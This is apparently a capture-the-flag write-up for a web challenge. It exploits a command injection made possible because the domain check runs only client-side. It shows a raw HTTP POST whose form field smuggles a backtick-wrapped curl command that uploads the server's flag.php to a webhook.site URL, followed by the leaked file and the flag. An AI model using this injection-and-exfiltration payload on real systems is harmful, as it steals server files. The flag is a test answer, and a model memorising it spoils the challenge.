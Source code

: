 ```yaml
---
created: 2025-03-01T22:11
updated: 2025-03-18T02:30
solves: 17
points: 50
---
```


Domain validity check is done client-side, we can just inject a command directly.

```http
POST /?domain=google.com HTTP/1.1
Content-Length: 111
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1:56410

domain=%60curl+-F+%22file%3D%40flag.php%22+https%3A%2F%2Fwebhook.site%2F9ae7c07b-30e6-41f3-8f59-b44b0d7a58ef%60
```

The command is this.

```bash
`curl -F "file=@flag.php" https://webhook.site/9ae7c07b-30e6-41f3-8f59-b44b0d7a58ef`
```

```php
This content is hidden :))
<?php

// ATHACKCTF{c0mm4nd_Inj3ecti0ns_4re_5c4ry}
```

```flag
ATHACKCTF{c0mm4nd_Inj3ecti0ns_4re_5c4ry}
```
